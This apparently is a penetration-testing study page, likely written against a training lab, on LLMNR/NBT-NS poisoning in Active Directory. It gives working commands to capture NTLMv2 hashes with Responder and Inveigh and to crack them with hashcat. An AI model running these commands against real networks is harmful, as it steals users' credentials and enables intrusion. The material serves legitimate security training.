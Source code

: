 ```yaml
---
title: "Sniffing a Foothold"
Description: 
draft: false
images: []
menu:
  docs:
    parent: "Active Directory"
weight: 2
toc: true
---
```


### <span style="color:#b31d36"> Quick Example - LLMNR/NBT-NS Poisoning

Let's walk through a quick example of the attack flow at a very high level:

```bash
1. A host attempts to connect to the print server at \\print01.inlanefreight.local, but accidentally types in \\printer01.inlanefreight.local.
2. The DNS server responds, stating that this host is unknown.
3. The host then broadcasts out to the entire local network asking if anyone knows the location of \\printer01.inlanefreight.local.
4. The attacker (us with Responder running) responds to the host stating that it is the \\printer01.inlanefreight.local that the host is looking for.
5. The host believes this reply and sends an authentication request to the attacker with a username and NTLMv2 password hash.
6. This hash can then be cracked offline or used in an SMB Relay attack if the right conditions exist.
```
### <span style="color:#b31d36"> LLMNR/NBT-NS Poisoning - from Linux

<span style="color:#b31d36"><a href="https://github.com/lgandx/Responder" target="_blank">Responder</a></span> will listen and answer any requests it sees on the wire. If you are successful and manage to capture a hash, Responder will print it out on screen and write it to a log file per host located in the /usr/share/responder/logs directory.

```
sudo responder -I ens224 
```
### <span style="color:#b31d36"> LLMNR/NBT-NS Poisoning - from Windows

The tool <span style="color:#b31d36"><a href="https://github.com/Kevin-Robertson/Inveigh" target="_blank">Inveigh</a></span> works similar to Responder, but is written in PowerShell and C#. Inveigh can listen to IPv4 and IPv6 and several other protocols, including LLMNR, DNS, mDNS, NBNS, DHCPv6, ICMPv6, HTTP, HTTPS, SMB, LDAP, WebDAV, and Proxy Auth.

Powershell:
```
PS C:\kryot> Import-Module .\Inveigh.ps1
PS C:\kryot> (Get-Command Invoke-Inveigh).Parameters
PS C:\kryot> Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```
C# Inveigh:
```
PS C:\kryot> .\Inveigh.exe

GET NTLMV2UNIQUE
GET NTLMV2USERNAMES
HELP
```

### <span style="color:#b31d36"> Cracking an NTLMv2
```
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt 
```